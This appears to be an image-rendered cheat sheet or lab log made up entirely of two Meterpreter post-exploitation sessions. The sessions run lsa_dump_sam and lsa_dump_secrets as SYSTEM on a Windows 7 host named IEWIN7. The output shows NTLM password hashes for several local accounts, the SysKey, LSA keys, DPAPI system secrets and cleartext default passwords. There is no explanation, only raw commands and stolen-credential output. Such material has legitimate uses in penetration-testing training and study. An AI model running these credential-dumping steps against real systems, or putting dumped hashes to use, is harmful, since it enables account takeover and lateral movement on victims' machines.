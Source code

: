 ```
meterpreter > lsa_dump_sam
[+] Running as SYSTEM
[*] Dumping SAM
Domain : IEWIN7
SysKey : 358fdae41881dad749ff1fefa2ce5c87
Local SID : S-1-5-21-1610009768-122519599-941061767

SAMKey : 0ad488298582e857353608d070ebc111

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: fc525c9683e8fe067095ba2ddc971889

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : IEUser
  Hash NTLM: fc525c9683e8fe067095ba2ddc971889

RID  : 000003e9 (1001)
User : sshd

RID  : 000003ea (1002)
User : sshd_server
  Hash NTLM: 8d0a16cfc061c3359db455d00ec27035

RID  : 000003eb (1003)
User : albedo
  Hash NTLM: 3dbde697d71690a769204beb12283678

RID  : 000003ec (1004)
User : unpriv
  Hash NTLM: 3dbde697d71690a769204beb12283678
```

```
meterpreter > lsa_dump_secrets
[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : IEWIN7
SysKey : 358fdae41881dad749ff1fefa2ce5c87

Local name : IEWIN7 ( S-1-5-21-1610009768-122519599-941061767 )
Domain name : WORKGROUP

Policy subsystem is : 1.11
LSA Key(s) : 1, default {f409f8e1-3371-f835-61d2-1f4e14c89687}
  [00] {f409f8e1-3371-f835-61d2-1f4e14c89687} 0293a24c3cf7c25d333b13f7814bd2ccde82e2b1c18391f76fb890b01f5fa225

Secret  : DefaultPassword
cur/text: Passw0rd!
old/text: ROOT#123

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 d7 e7 10 e0 e1 fe e9 a6 fa 72 6c e5 6d bd f2 fb b3 20 2d 1e ac 17 fe 50 74 dd ae a2 1a 32 dc d9 18 b6 5f 26 91 b1 dd c4 
    full: d7e710e0e1fee9a6fa726ce56dbdf2fbb3202d1eac17fe5074ddaea21a32dcd918b65f2691b1ddc4
    m/u : d7e710e0e1fee9a6fa726ce56dbdf2fbb3202d1e / ac17fe5074ddaea21a32dcd918b65f2691b1ddc4
old/hex : 01 00 00 00 37 e8 8b b1 d4 c5 05 d8 90 64 8b 7d 45 38 85 3c 20 f8 5e 77 80 5e 7f 25 b2 fc dd 7d 22 33 6b 26 b5 53 0c ea 4e e4 f4 cc 
    full: 37e88bb1d4c505d890648b7d4538853c20f85e77805e7f25b2fcdd7d22336b26b5530cea4ee4f4cc
    m/u : 37e88bb1d4c505d890648b7d4538853c20f85e77 / 805e7f25b2fcdd7d22336b26b5530cea4ee4f4cc
```